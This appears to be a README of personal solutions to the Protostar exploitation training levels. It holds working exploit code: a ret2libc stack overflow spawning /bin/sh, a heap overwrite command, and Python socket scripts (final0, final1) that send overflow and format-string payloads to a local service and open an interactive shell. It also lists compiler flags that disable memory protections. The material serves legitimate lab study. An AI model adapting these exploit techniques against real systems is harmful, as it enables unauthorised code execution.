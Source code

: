 # Protostar

## Stack
- [x] stack0
- [x] stack1
- [x] stack2
- [x] stack3
- [x] stack4
- [x] stack5
- [x] stack6
- [x] stack7
```
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
return_op = struct.pack("I",0x08048544)
call_system = struct.pack("I",0xb7ecffb0)
after_system_execution = struct.pack("I",0xb7ec60c0)
bin_sh_path = struct.pack("I",0xb7fb63bf)
print padding + return_op + call_system + after_system_execution + bin_sh_path
```

## Format String
- [x] format0
- [x] format1
- [x] format2
```
%n4u (replace 4 with additional data you want for %n )
```
- [x] format3
- [x] format4

## Heap
- [x] heap0
- [x] heap1
```
./heap1 "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
```
- [x] heap2
```
exploiting use-after-free bug
```
- [x] heap3
```
need to create a fake chunk and unlink it explictly
then forward & backward pointer is abused to write change the PLT

hence executing the winner function
```

## Network

- [x] net0
```
echo -ne "`cat -`" | nc 127.0.0.1 2999

to enter the little endian string
```
- [x] net1
- [x] net2

## Final
- [x] final0
```
import struct
import socket
import telnetlib

HOST='127.0.0.1'
PORT=2995

padding = "A"*500+"\x00"+"aaaabbbbccccddddeeeeffffgggghhh"
execv = struct.pack("I",0x08048c0c)
execv_ret = "AAAA"
execv_param =  struct.pack("I",1176511+0xb7e97000)#bin/sh address

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((HOST,PORT))


exploit = padding+execv+execv_ret+execv_param+"\x00"*8

s.send(exploit+"\n")

t = telnetlib.Telnet()
t.sock = s
t.interact()
```
- [x] final1
```
import struct
import socket
import telnetlib

HOST='127.0.0.1'
PORT=2994


def read_until(check):
    buffer=''
    while check not in buffer:
        buffer += s.recv(1)
    return buffer


s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((HOST,PORT))

# GOT -> 0x804a1b4
# system offset -> 0xb7ecffb0

strcmp = struct.pack("I",0x804a1a8)
strcmp2 = struct.pack("I",0x804a1a8+2)
ip,port = s.getsockname()

hostname = ip+":"+str(port)
padding_a = "A"*(24-len(hostname))

username = padding_a+'BBBB'+strcmp+'DDDD'+strcmp2+'%17$65399x %18$08n %19$47162x %20$08n'
#username = padding_a + 'BBBB' + strcmp + '%17$65407x %18$08nAA' + strcmp2 + '%22$47157x %24$04n'

password="CCCC"

print read_until("[final1] $ ")
raw_input('Waiting for input..')
s.send("username "+username+"\n")
print read_until("[final1] $ ")
s.send("login "+password+"\n")
print read_until("[final1] $ ")
raw_input('Waiting for input..')

t = telnetlib.Telnet()
t.sock = s
t.interact()
```
- [ ] final2

## Create a Binary with no stack canary, executable stack and no PIE (Position Independent Code)
```
gcc <input> -o <output> -fno-stack-protector -z execstack -no-pie
```

## Using socat on binary file
attaching binary to the port
```
socat TCP-LISTEN:1337,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./<Program name>"
```

# Reference
- https://old.liveoverflow.com/binary_hacking/protostar/index.html
- https://exploit.education/protostar/
- https://ctf101.org/binary-exploitation/overview/

# Writeup & Video
- https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
- https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
- https://failingsilently.wordpress.com/exploit-development/
- https://www.ayrx.me/protostar-walkthrough-format ( format string writeup )

# Tools
- https://github.com/inaz2/roputils
- https://github.com/JonathanSalwan/ROPgadget
